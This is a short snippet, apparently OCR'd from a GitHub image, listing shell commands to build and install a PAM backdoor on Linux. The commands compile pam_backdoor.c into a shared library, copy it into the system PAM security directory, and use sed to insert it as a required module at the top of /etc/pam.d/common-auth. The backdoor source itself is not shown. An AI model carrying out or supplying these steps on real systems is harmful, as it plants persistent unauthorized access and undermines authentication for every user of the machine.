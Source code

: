 sudo apt update  
sudo apt install libpam0g-dev  
gcc -fPIC -fno-stack-protector -c pam_backdoor.c  
ld -x --shared -o pam_backdoor.so pam_backdoor.o  
sudo cp pam_backdoor.so /lib/x86_64-linux-gnu/security  
sed -i '1i auth required pam_backdoor.so' /etc/pam.d/common-auth  
